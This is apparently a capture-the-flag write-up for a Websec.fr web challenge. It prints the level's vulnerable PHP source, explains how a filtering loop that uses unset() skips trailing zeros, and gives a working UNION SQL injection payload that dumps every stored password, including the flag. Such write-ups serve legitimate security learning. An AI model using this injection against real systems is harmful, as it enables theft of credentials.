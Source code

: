 ```yaml
---
title: Websec.fr level 12 - easy
date: October 24, 2024 00:00:00
author: Elad
categories: [Write-ups]
tags: [Websec.fr]
---
```


# The level
![image](https://github.com/user-attachments/assets/93357d02-f026-4b10-a953-5203f02def84)



```php
<?php
<!-- Yet an other fine level, based on a real-world vuln discovered by @caillou -->
<?php

// Defines $flag
include 'flag.php';

$db = new PDO('sqlite::memory:');
$db->exec('CREATE TABLE users (
  user_id   INTEGER PRIMARY KEY,
  user_name TEXT NOT NULL,
  user_privileges INTEGER NOT NULL,
  user_password TEXT NOT NULL
)');

$db->prepare("INSERT INTO users VALUES(0, 'admin', 0, '$flag');")->execute();

for($i=1; $i<25; $i++) {
  $pass = md5(uniqid());
  $user = "user_" . substr(crc32($pass), 0, 2);
  $db->prepare("INSERT INTO users VALUES($i, '$user', 1, '$pass');")->execute();
}
?>

<!DOCTYPE html>
<html>
<head>
    <title>#WebSec Level Thirteen</title>
    <link rel="stylesheet" href="../static/bootstrap.min.css" />
</head>
    <body>
        <div id="main">
            <div class="container">
                <div class="row">
                    <h1>LevelThirteen <small> - A privilege offer</small></h1>
                </div>
                <div class="row">
                    <p class="lead">
                                            A simple tool to display privileges, so you can check them.
                                            As usual, the source code can be found <a href="source.php">here</a>.
                    </p>
                </div>
            </div>
            <div class="container">
              <div class="row">
                <form class="form-inline" method='get'>
                                    Ids to display
                  <input name='ids' class='form-control' type='text' value='1,2,3'>
                  <input class="form-control btn btn-default" name="submit" value='Go' type='submit'>
                </form>
              </div>

<?php
if (isset($_GET['ids'])) {
    if ( ! is_string($_GET['ids'])) {
        die("Don't be silly.");
    }

    if ( strlen($_GET['ids']) > 70) {
        die("Please don't check all the privileges at once.");
    }

  $tmp = explode(',',$_GET['ids']);
  for ($i = 0; $i < count($tmp); $i++ ) {
        $tmp[$i] = (int)$tmp[$i];
        if( $tmp[$i] < 1 ) {
            unset($tmp[$i]);
        }
  }

  $selector = implode(',', array_unique($tmp));

  $query = "SELECT user_id, user_privileges, user_name
  FROM users
  WHERE (user_id in (" . $selector . "));";

  $stmt = $db->query($query);

    echo '<br>';
    echo '<div class="well">';
  echo '<ul>';
  while ($row = $stmt->fetch(\PDO::FETCH_ASSOC)) {
        echo "<li>";
        echo "User <em>" . $row['user_name'] . "</em>";
      echo "    with id <code>" . $row['user_id'] . '</code>';
        echo " has <b>" . ($row['user_privileges'] == 0?"all":"no") . "</b> privileges.";
        echo "</li>\n";
  }
    echo "</ul>";
    echo "</div>";
}
?>
            </div>
        </div>
    </body>
</html>
```

This time I put all the code because it's it all pretty important. OK! let's begin. We have a data base. First, we see that <b>admin</b> user_name with <b>0</b> id has the password <b>$flag</b>. So our purpose is to get the id 0's password. How do we do that ?

This code fills the database <b>"users"</b> with 25 different users. The input later takes id's like "1,2,3". Then splits in into an array, and if there a 0 it unsets it from the list. At the final stage it recomibines it to the string then queries the users for those id.

## What's the caveat ?
Look at this loop
```php
$tmp = explode(',',$_GET['ids']);
for ($i = 0; $i < count($tmp); $i++ ) {
    $tmp[$i] = (int)$tmp[$i];
    if( $tmp[$i] < 1 ) {
        unset($tmp[$i]);
    }
}
```

if we unset an element of the list, the count will change right? that means that the loop will stop if the array is too long. Look at this code and it's output.

```php
<?php
// Simulated input
$input = '4,0,0,0,0,5'; // Values to process
$tmp = explode(',', $input);
echo "Initial count: " . count($tmp) . "\n"; // Initial count

for ($i = 0; $i < count($tmp); $i++) {
    $tmp[$i] = (int)$tmp[$i]; // Convert to integer
    echo "Count after conversion at index $i: " . count($tmp) . "\n"; // Count after conversion

    if ($tmp[$i] < 1) {
        unset($tmp[$i]);
        echo "Count after unsetting at index $i: " . count($tmp) . "\n"; // Count after unsetting
    }
}

// Final output of valid IDs
echo "Final valid IDs: " . implode(',', $tmp) . "\n";
echo "Final count of valid IDs: " . count($tmp) . "\n"; // Final count

// Echo the original input after processing
echo "Original input after processing: " . implode(',', $tmp) . "\n"; // Echoing the processed input
?>
```

```
php /tmp/DQsGXDOTox.php
Initial count: 6
Count after conversion at index 0: 6
Count after conversion at index 1: 6
Count after unsetting at index 1: 5
Count after conversion at index 2: 5
Count after unsetting at index 2: 4
Count after conversion at index 3: 4
Count after unsetting at index 3: 3
Final valid IDs: 4,0,5
Final count of valid IDs: 3
Original input after processing: 4,0,5
```
Original input after processing: 4,0,5. Meaning, the count was decreased each time, and the for loop exisited before removing the final 0. Great !! So now we know what input of id's to insert. Let's try it.


![image](https://github.com/user-attachments/assets/eda10a68-db98-4bd2-b3e5-cb888d063207)

WELL, we know that user admin has all privileges. What does that help us ? Let's look at the final query again.

```php
$query = "SELECT user_id, user_privileges, user_name
FROM users
WHERE (user_id in (" . $selector . "));";`
```

Selecting 3 columns without the user_password, meaning we need a <b>UNION</b> statment here to choose the password, and not make too long because of the len check

```php
if ( strlen($_GET['ids']) > 70) {
    die("Please don't check all the privileges at once.");
}
```

Great, let's build it
```sql
1,0,0,0,2 )) UNION SELECT user_password, 1, 2 FROM users;
```

Why the )) ? Because the we need to inject it into the
```php
$selector = implode(',', array_unique($tmp));

$query = "SELECT user_id, user_privileges, user_name
FROM users
WHERE (user_id in (" . $selector . "));";`
``` 

Remember, in UNION the number of columns needs to be identical for both SELECT statments (that's why the user_password, then 1, 2)

Great, what do we get ?

```
User user_27 with id 1 has no privileges.
User user_27 with id 2 has no privileges.
User 2 with id 0bb3ae4666fe9dc85fc881f4b50ac799 has no privileges.
User 2 with id 30c230596b57f0300b9ece80a166a97f has no privileges.
User 2 with id 3a5dcf2ccd137c387d2e301540f750da has no privileges.
User 2 with id 4a8398704bbeb7e49aa610e5678a447e has no privileges.
User 2 with id 53352a755722a8c34b7883d301dcf857 has no privileges.
User 2 with id 584fbc15512ad0c9c2776f474ffafde3 has no privileges.
User 2 with id 5a3baef3cb4b51c45714a560d500cc19 has no privileges.
User 2 with id 5b01bc0c4389c6c2d18acb7c112cc8b4 has no privileges.
User 2 with id 608baefb79dc839c1e2fa98946260297 has no privileges.
User 2 with id 638a5304b26f20a400b29021275a906b has no privileges.
User 2 with id 6bfdf6faaaca4ebf44d1c533d2004e2f has no privileges.
User 2 with id 8456825b70310699d1b17e898ad496db has no privileges.
User 2 with id 890b7ffc93131dda52dd607625f23f02 has no privileges.
User 2 with id 96574db1a037cfd4f596e3b8716be03f has no privileges.
User 2 with id 9d83e36e0fa1b0c493a24288e5080158 has no privileges.
User 2 with id WEBSEC{SQL_injection_in_your_cms,_made_simple} has no privileges.
User 2 with id a50e95877aacc22c160405273eff83a8 has no privileges.
User 2 with id a6005e223e56a65081cedc2c54bc03f8 has no privileges.
User 2 with id bc4eb02a196e2bd8fe7a5c94d707befa has no privileges.
User 2 with id c1898885de0431ab1ca8e5bc6dca6917 has no privileges.
User 2 with id ca9af06cd2e71f92d47bd23e759dfca8 has no privileges.
User 2 with id d4ba99f0bf9a8c10f672c3128a0a446d has no privileges.
User 2 with id d7576301f7f508b011cb4a8137bfdaf0 has no privileges.
User 2 with id e950dd57e4aab1dbe00f2d566bdc8fbc has no privileges.
User 2 with id ff506985f19a872d98f0e8803d1b504e has no privileges.
```


```
WEBSEC{SQL_injection_in_your_cms,_made_simple}
```

Thanks for reading !!!
